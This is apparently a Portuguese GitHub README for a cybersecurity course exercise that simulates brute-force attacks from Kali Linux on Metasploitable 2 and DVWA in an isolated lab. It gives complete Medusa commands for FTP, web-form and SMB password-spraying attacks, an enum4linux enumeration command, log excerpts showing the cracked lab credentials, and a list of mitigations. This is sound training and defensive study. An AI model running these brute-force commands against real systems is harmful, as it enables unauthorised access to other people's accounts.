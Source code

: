 # Desafio de Projeto DIO — Brute Force com Kali e Medusa

> Projeto do desafio de cibersegurança da DIO: simular ataques de **força bruta** em um laboratório virtual usando **Kali Linux** e **Medusa**. (Ambiente controlado: Metasploitable 2 e DVWA.)

---

## 1. Ambiente do laboratório
- **Virtualizador:** VirtualBox  
- **Rede:** Host‑Only (rede interna)  
- **Atacante:** Kali Linux  
- **Alvos:** Metasploitable 2 e DVWA

---

## 2. Ataques realizados

### Cenário 1 — Ataque FTP (Metasploitable 2)
- **Alvo:** `192.168.56.102`  
- **Listas usadas:** `user.txt`, `senhas.txt`

**Comando:**
```bash
medusa -h 192.168.56.102 -U user.txt -P senhas.txt -M ftp
```

**Trecho do resultado:**
```
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks
2025-10-24 23:19:10 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 comp ...)
2025-10-24 23:19:25 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-24 23:19:49 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 ... User: user ... Password: msfadmin ...
```

> ✅ **Resultado:** Funcionou — credenciais `msfadmin:msfadmin` encontradas.

---

### Cenário 2 — Ataque de formulário web (DVWA)
- **Alvo:** `192.168.56.102`  
- **Nível do DVWA:** Low

**Comando (exemplo com parâmetros de formulário):**
```bash
medusa -h 192.168.56.102 -U user.txt -P senhas.txt -M web-form   -m FORM_TARGET:"/dvwa/vulnerabilities/brute/index.php"   -m FORM_DATA:"username=%USER%&password=%PASS%&Login=Login"   -m FORM_FAIL:"Username and/or password incorrect."   -m PAGE_LOGIN_PATH:"/dvwa/login.php"   -m PAGE_LOGIN_DATA:"username=admin&password=password&Login=Login"
```

**Trecho do resultado:**
```
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks
WARNING: Invalid method: FORM_TARGET.
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: msfadmin Password: admin [SUCCESS]
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: admin Password: admin [SUCCESS]
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: user Password: admin [SUCCESS]
```

> ✅ **Resultado:** Funcionou — várias combinações encontradas (ex.: `msfadmin:admin`).

---

### Cenário 3 — Password spraying em SMB (Metasploitable 2)
- **Alvo:** `192.168.56.102`  
- **Técnica:** testar uma mesma senha (`msfadmin`) em vários usuários (spraying).

**Enumeração de usuários (com `enum4linux`):**
```bash
enum4linux -U 192.168.56.102
```

**Exemplo de saída (usuários encontrados):**
```
user:[user] rid:[0xbba]
user:[root] rid:[0x3e8]
user:[msfadmin] rid:[0xbb8]
...
enum4linux complete on Fri Oct 24 23:22:32 2025
```

**Comando (password spraying):**
```bash
medusa -h 192.168.56.102 -U user.txt -p 'msfadmin' -M smbnt
```

**Trecho do resultado:**
```
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks
2025-10-24 23:26:31 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2025-10-24 23:26:31 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 ... User: admin ... Password: msfadmin ...
```

> ✅ **Resultado:** Achou `msfadmin` com acesso administrativo (`ADMIN$`).

---

## 3. Mitigações — Como se proteger
Principais recomendações para reduzir o risco de ataques de força bruta:

- Usar **senhas fortes** e únicas.  
- Bloquear/lockar contas após X tentativas falhas.  
- Implementar **rate limiting** (atraso entre tentativas).  
- Adotar **Autenticação Multifator (MFA)**.  
- Monitorar logs e alertas de tentativas de login suspeitas.  
- Desativar serviços desnecessários (ex.: FTP, SMB) quando não usados.

---

## 4. Aviso legal
Todos os testes foram realizados **em ambiente virtual e controlado** (Metasploitable 2 e DVWA) apenas para fins de aprendizado. **Nenhum sistema real foi atacado.**

---

## Apêndice — Sumário rápido
- **Ambiente:** VirtualBox (Host‑Only), Kali, Metasploitable 2, DVWA.  
- **Ferramenta principal:** Medusa (v2.3).  
- **Técnicas usadas:** brute‑force em FTP, brute‑force via formulário web, password spraying em SMB.  
- **Data das execuções (logs):** 24 de outubro de 2025 (horários aparecem nos trechos de log).

---
